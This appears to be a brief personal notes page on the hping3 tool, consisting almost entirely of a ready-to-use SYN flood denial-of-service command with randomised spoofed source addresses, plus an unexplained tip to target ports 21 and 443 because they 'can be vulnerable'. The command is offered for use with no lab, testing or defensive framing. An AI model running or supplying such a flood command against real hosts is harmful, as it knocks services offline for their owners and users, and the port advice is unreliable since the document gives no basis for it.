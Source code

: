 ```yaml
---
layout: default
title: "|--Hping3 "
date: 2025-07-02 
tags: [networking]
---
```


DoS using *hping3* with random source IP

- `hping3 -c 10000 -d 120 -S -w 64 -p &lt;Port&gt; --flood --rand-source &lt;Target&gt;`

- YOU CAN TARGET PORT *21* and *443* because that can be vulnerable

